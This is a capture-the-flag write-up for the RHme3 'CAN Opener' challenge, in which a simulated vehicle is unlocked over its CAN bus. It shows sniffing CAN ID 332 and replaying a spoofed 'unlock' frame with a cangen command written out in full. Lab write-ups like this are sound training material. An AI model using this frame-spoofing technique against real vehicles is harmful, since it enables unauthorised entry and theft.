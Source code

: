 # [CAN Opener](https://rhme.riscure.com/3/challenge?id=13)

Controller Area Network - 150pts

## Challenge text

Our operatives have recovered a DeLorean in the ruins of an old mid-west US town. It appears to be locked, but we have successfully accessed its internal communications channels. According to the little data we have, the DeLorean internally uses an archaic technology called CAN bus. We need you to analyze the communications and find a way to unlock the vehicle; once unlocked, recover the secret flag stored inside. We have reason to believe that vehicle entry should be a fairly easy challenge, but to aid you in this, we have restored and reconnected the vehicle dashboard.

Best of luck.

The Dashboard app was available during the CTF.

Challenge developed by Argus Cyber Security.

## Solution

### Solution overview

The solution to this challenge is basically to identify which CAN ID controls door locks, rewrite it, and manually feed it back onto the CAN bus.  It's that simple.

### Preparation

If you haven't done so already, prepare your boards for working with CAN using these guides:
* [RHme3 board analysis and preparation](Preparation/RHme3_board_analysis.md)
* [Beaglebone Black CAN setup](../Preparation/BBB_CAN_setup.md)

Make the following connections:
* Connect the two ECUs on the RHme3 board using jumpers.
* Connect the Beaglebone Black to the RHme3 ECUs using twisted pair wiring via a CAN transciever such as a Carloop CAN Hitch.  The Beaglebone Black is capable of using two CAN transcievers, but you only need one for this challenge.

![Single CAN Hookup](../Images/can_hookup_single.jpg)

Determine the serial port used for RHme3 board, then start up the Dashboard app:

	> cd rhme3dash-master; dashboard.py COM42
	$ cd rhme3dash-master; dashboard.py /dev/ttyUSB0

### Analysis

A quick analysis using cansniffer on the Beaglebone Black shows that CAN ID 332 may be useful:

	$ cansniffer -c can0
	332  6C 6F 63 6B 00 00 00 00 lock....

### Attack

Let's attempt to rewrite this as "unlock" and feed it back using cangen:

	332  75 6E 6C 6F 63 6B 00 00 unlock..
	$ cangen -I 332 -L 8 -D 756E6C6F636B0000 -n 5 can0

On the dashboard, the door indicator lights up and the flag is displayed in the lower left corner.

![CAN Opener Dashboard with FLAG](../Images/can_opener_dashboard.png)
